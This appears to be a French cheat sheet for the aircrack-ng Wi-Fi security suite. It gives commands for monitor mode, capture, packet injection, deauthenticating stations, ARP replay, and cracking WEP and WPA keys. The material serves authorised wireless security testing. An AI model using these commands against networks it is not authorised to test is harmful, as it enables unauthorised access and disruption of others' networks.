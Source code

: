 aircrack-ng
===========

*aircrack-ng* est une suite logicielle permettant de tester la sécurité des
réseaux sans-fil type 802.11 (wifi).

Un peu de vocabulaire :
* AP : Access Point
* STA : une station connectée à un AP
* essid : nom diffusé par l'AP.
* bssid : adresse MAC de l'AP

## Configuration

Pour voir les caractéristiques des interfaces wifi du système (on peut
connaître par exemple les modes possibles : `AP` ou `monitor` par
exemple) :
```
# iw list
```

ou
```
# iw phy phy0 info
```

Pour mettre l'interface `wlan0` en mode `monitor` :
```
# airmon-ng start wlan0
```

On peut fixer un canal d'écoute :
```
# airmon-ng start wlan0 9
```

Pour désactiver le mode `monitor` :
```
# airmon-ng stop wlan0mon
```

A noter que l'interface change de nom lorsqu'elle passe en mode
`monitor` : `wlan0` -> `wlan0mon`

Pour tuer les process qui pourraient gêner le changement de mode :
```
# airmon-ng check kill
```

## Utilisation

### Reconnaissance

Pour scanner les réseaux wifi disponibles :
```
# iwlist wlan0 scan
```

### Ecoute

Pour écouter (tous les réseaux) :
```
# airodump-ng wlan0mon
```

Pour spécifier en plus le *channel* et le *bssid* de l'AP cible et dumper la
capture (les fichiers générés auront le préfixe `dump`) :
```
# airodump-ng wlan0mon -c 9 --bssid XX:XX:XX:XX:XX:XX -w dump
```

### Injection de paquets

Pour tester une injection de paquets :
```
# aireplay-ng -9 -e <essid> -a <bssid> wlan0mon
```

Pour dés-authentifier une station (option `-0`) :
```
# aireplay-ng -0 <nombre_de_req_envoyées> -c <station_mac_addr> -a <bssid> wlan0mon
```

Pour rejouer du trafic (après qu'une station ait créé du trafic légitime) :
```
# aireplay-ng --arpreplay -b <bssid> -h <station_mac_addr> wlan0mon
```

### Crack clé WEP

Le principe ici est de capturer suffisamment de trafic (des *IVs*). On peut
rejouer des paquets si nécessaire pour générer plus de trafic.
```
# aircrack-ng *cap
```

### Crack clé WPA

Pour cracker une clé WPA avec un fichier de dictionnaire après avoir capturer
un *4-way-handshake*. On peut dés-authentifier une station si nécessaire pour
forcer sa ré-authentification.
```
# aircrack-ng -w dict.txt -b <bssid> dump.cap
```

On peut simplement lire le fichier de capture pour voir si des handshakes ont
été capturés :
```
# aircrack-ng <capture_file>
```

On peut ajouter l'option `-j` pour créer un fichier *HCCAPX* pour *hashcat* :
```
# aircrack-ng <capture_file> -j <hashcat_file_to_create>
```

Si on veut voir le handshake dans *Wireshark*, on peut appliquer ce filtre :
```
(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr==XX:XX:XX:XX:XX:XX
```

## Sources

* <https://linuxconfig.org/discover-hidden-wifi-ssids-with-aircrack-ng>
* <https://www.aircrack-ng.org/doku.php?id=simple_wep_crack>
* <https://www.aircrack-ng.org/doku.php?id=newbie_guide>
* <https://doc.ubuntu-fr.org/aircrack-ng>
